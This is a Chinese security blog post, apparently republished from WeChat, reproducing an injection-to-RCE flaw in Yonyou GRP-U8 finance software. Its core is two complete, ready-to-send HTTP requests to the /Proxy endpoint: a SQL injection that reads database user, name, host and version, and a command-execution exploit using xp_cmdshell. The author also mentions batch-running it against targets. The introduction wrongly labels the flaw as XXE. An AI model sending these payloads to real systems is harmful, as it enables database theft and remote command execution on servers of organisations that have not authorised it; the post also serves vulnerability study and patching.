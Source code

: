 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/qohRHQj3pS1BTRv341tS9g)

![](https://mmbiz.qpic.cn/mmbiz_jpg/uljkOgZGRjcSQn373grjydSAvWcmAgI3MypEpP1VictwEP5nnfiaroylED70CH67ib3AOHMoibP5uwDnicdSCNX9Eaw/640?wx_fmt=jpeg)

用友 GRP-u8 注入 - RCE 漏洞复现

一、漏洞简介

用友 GRP-u8 存在 XXE 漏洞，该漏洞源于应用程序解析 XML 输入时没有进制外部实体的加载，导致可加载恶意外部文件。

二、漏洞复现

SQL 注入 POC  

```
POST /Proxy HTTP/1.1
Host: localhost:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: JSESSIONID=25EDA97813692F4D1FAFBB74FD7CFFE0
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 371

cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">select user,db_name(),host_name(),@@version</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

验证过程  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcSQn373grjydSAvWcmAgI3Jj3hQ5GQQg2R5XCv5j4WkLz2QPia2CoFQlOzBAMykYX5UZqic3pNymlA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcSQn373grjydSAvWcmAgI38UlYCnYOJU6Umtd3o4iauMb9bOrTSA84audEfHgaia5icyt1Sa9XeEXSQ/640?wx_fmt=png)

批量跑了一部分（这个是 HW 期间第一时间跑的）现在估计没啥了  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcSQn373grjydSAvWcmAgI3IOicD965VsbHs2coKKY8KuRic8bNn6O7I6c6QsbHcZFOVoPicdsysggIQ/640?wx_fmt=png)

Rce 注入 EXP  

```
POST /Proxy HTTP/1.1
Host: localhost:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: JSESSIONID=25EDA97813692F4D1FAFBB74FD7CFFE0
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 355

cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec xp_cmdshell 'ipconfig'</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcSQn373grjydSAvWcmAgI3tZOkZNv2g8eeEjaFliaLnekZwRMTLfb8pDhGmCzm2stWEMwtZPEqmVA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcSQn373grjydSAvWcmAgI3LibfCB23cLIydNYFACOZz1iaTUeEV7ofvXH9ZH7Y4bkKeGZmsQD0buQw/640?wx_fmt=png)

参考：  

https://www.cnblogs.com/0day-li/p/13652897.html

https://www.uedbox.com/post/14953/

https://www.cnblogs.com/Yang34/p/13653960.html

注意：⚠️  

免责声明：本站提供安全工具、程序 (方法) 可能带有攻击性，仅供安全研究与教学之用，风险自负!

如果本文内容侵权或者对贵公司业务或者其他有影响，请联系作者删除。  

转载声明：著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。

订阅查看更多复现文章、学习笔记

thelostworld

安全路上，与你并肩前行！！！！

公众号

```
个人知乎：https://www.zhihu.com/people/fu-wei-43-69/columns
个人简书：https://www.jianshu.com/u/bf0e38a8d400
个人CSDN：https://blog.csdn.net/qq_37602797/category_10169006.html
个人博客园：https://www.cnblogs.com/thelostworld/
FREEBUF主页：https://www.freebuf.com/author/thelostworld?type=article
语雀博客主页：https://www.yuque.com/thelostworld
```

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcW6VR2xoE3js2J4uFMbFUKgglmlkCgua98XibptoPLesmlclJyJYpwmWIDIViaJWux8zOPFn01sONw/640?wx_fmt=png)

欢迎添加本公众号作者微信交流，添加时备注一下 “公众号”  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcSQn373grjydSAvWcmAgI3ibf9GUyuOCzpVJBq6z1Z60vzBjlEWLAu4gD9Lk4S57BcEiaGOibJfoXicQ/640?wx_fmt=png)